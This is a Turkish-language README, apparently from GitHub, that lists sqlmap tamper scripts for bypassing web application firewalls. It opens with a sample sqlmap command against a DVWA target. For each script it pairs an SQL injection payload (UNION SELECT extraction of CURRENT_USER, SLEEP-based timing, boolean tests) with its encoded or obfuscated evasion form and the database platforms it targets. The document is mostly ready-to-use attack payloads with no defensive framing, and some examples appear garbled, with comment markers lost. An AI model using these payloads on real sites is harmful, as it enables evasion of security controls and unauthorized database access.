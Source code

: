 # SQLMapWafBypass
SQLmap Waf Bypass İçin Tamper Listesi


Örnek Kullanımı; sqlmap -u "http://1.2.3.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --tamper "randomcase" --dbs

apostrophemask.py (UTF-8) Örnek:

Orijinal Komut: AND '1'='1'
Bypass Komutu: AND %EF%BC%871%EF%BC%87=%EF%BC%871%EF%BC%87
apostrophenullencode.py (unicode) Örnek:

Orijinal Komut: AND '1'='1'
Bypass Komutu: AND %271%27=%271%27
appendnullbyte.py () Örnek:

Orijinal Komut: AND 1=1
Bypass Komutu: AND 1=1 Platform:
Microsoft Access
base64encode.py (base64) Örnek:

Orijinal Komut: 1' AND SLEEP(5)#
Bypass Komutu: MScgQU5EIFNMRUVQKDUpIw==
between.py (“not between” “>”) Örnek:

Orijinal Komut: 'A > B'
Bypass Komutu: 'A NOT BETWEEN 0 AND B'
bluecoat.py (“like” “=”) Örnek:

Orijinal Komut: SELECT id FROM users where id = 1
Bypass Komutu: SELECT%09id FROM users where id LIKE 1 Platform:
MySQL 5.1, SGOS
chardoubleencode.py Örnek:

Orijinal Komut: SELECT FIELD FROM%20TABLE
Bypass Komutu: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545
charencode.py Örnek:

Orijinal Komut: SELECT FIELD FROM%20TABLE
Bypass Komutu: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
charunicodeencode.py Örnek:

Orijinal Komut: SELECT FIELD%20FROM TABLE
Bypass Komutu: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045' Platform:
ASP
ASP.NET
equaltolike.py (“like” “=”) Örnek:

Orijinal Komut: SELECT * FROM users WHERE id=1
Bypass Komutu: SELECT * FROM users WHERE id LIKE 1
halfversionedmorekeywords.py Örnek:

Orijinal Komut: value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa
Bypass Komutu: value'/!0UNION/!0ALL/!0SELECT/!0CONCAT(/!0CHAR(58,107,112,113,58),/!0IFNULL(CAST(/!0CURRENT_USER()/!0AS/!0CHAR),/!0CHAR(32)),/!0CHAR(58,97,110,121,58)), NULL, NULL#/!0AND 'QDWa'='QDWa Platform:
MySQL < 5.1
ifnull2ifisnull.py (“IF(ISNULL(A), B, A)” “IFNULL(A, B)”) Örnek:

Orijinal Komut: IFNULL(1, 2)
Bypass Komutu: IF(ISNULL(1), 2, 1) Platform:
MySQL
SQLite (possibly)
SAP MaxDB (possibly)
modsecurityversioned.py Örnek:

Orijinal Komut: 1 AND 2>1--
Bypass Komutu: 1 /!30000AND 2>1/-- Platform:
MySQL
modsecurityzeroversioned.py (“0000”) Örnek:

Orijinal Komut: 1 AND 2>1--
Bypass Komutu: 1 /!00000AND 2>1/-- Platform:
MySQL
multiplespaces.py Örnek:

Orijinal Komut: UNION SELECT
Bypass Komutu: UNION SELECT
nonrecursivereplacement.py Örnek:

Orijinal Komut: 1 UNION SELECT 2--
Bypass Komutu: 1 UNUNIONION SELSELECTECT 2--
percentage.py (“%”) Örnek:

Orijinal Komut: SELECT FIELD FROM TABLE
Bypass Komutu: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E Platform:
ASP
randomcase.py Örnek:

Orijinal Komut: INSERT
Bypass Komutu: InsERt
randomcomments.py Örnek: 'INSERT' becomes 'IN//S//ERT'

securesphere.py Örnek:

Orijinal Komut: AND 1=1
Bypass Komutu: AND 1=1 and '0having'='0having'
sp_password.py (“sp_password”) Örnek:

Orijinal Komut: 1 AND 9227=9227--
Bypass Komutu: 1 AND 9227=9227--sp_password Platform:
MSSQL
space2comment.py Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECT//id//FROM/**/users
space2dash.py (“--”) Örnek:

Orijinal Komut: 1 AND 9227=9227
Bypass Komutu: 1--PTTmJopxdWJ%0AAND--cWfcVRPV%0A9227=9227 Platform:
MSSQL
SQLite
space2hash.py Örnek:

Orijinal Komut: 1 AND 9227=9227
Bypass Komutu: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 Platform:
MySQL
space2morehash.py Platform:

MySQL >= 5.1.13
space2mssqlblank.py Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECT%08id%02FROM%0Fusers Platform:
Microsoft SQL Server
space2mssqlhash.py Örnek:

Orijinal Komut: 1 AND 9227=9227
Bypass Komutu: 1%23%0A9227=9227 Platform:
MSSQL
MySQL
space2mysqlblank.py Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECT%0Bid%0BFROM%A0users Platform:
MySQL
space2mysqldash.py Örnek:

Orijinal Komut: 1 AND 9227=9227
Bypass Komutu: 1--%0AAND--%0A9227=9227 Platform:
MySQL
MSSQL
space2plus.py (“+”) Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECT+id+FROM+users
space2randomblank.py Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECTridtFROMnusers
unionalltounion.py (“union all” “union”) Örnek:

Orijinal Komut: -1 UNION ALL SELECT
Bypass Komutu: -1 UNION SELECT
unmagicquotes.py (“%bf%27” “--”) Örnek:

Orijinal Komut: 1' AND 1=1
Bypass Komutu: 1%bf%27 AND 1=1--%20
versionedkeywords.py Örnek:

Orijinal Komut: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#
Bypass Komutu: 1/!UNION//!ALL//!SELECT//!NULL/,/!NULL/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/!AS//!CHAR/),CHAR(32)),CHAR(58,100,114,117,58))# Platform:
MySQL
versionedmorekeywords.py Örnek:

Orijinal Komut: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
Bypass Komutu: 1/!UNION//!ALL//!SELECT//!NULL/,/!NULL/,/!CONCAT/(/!CHAR/(58,122,114,115,58),/!IFNULL/(CAST(/!CURRENT_USER/()/!AS//!CHAR/),/!CHAR/(32)),/!CHAR/(58,115,114,121,58))# Platform:
MySQL >= 5.1.13
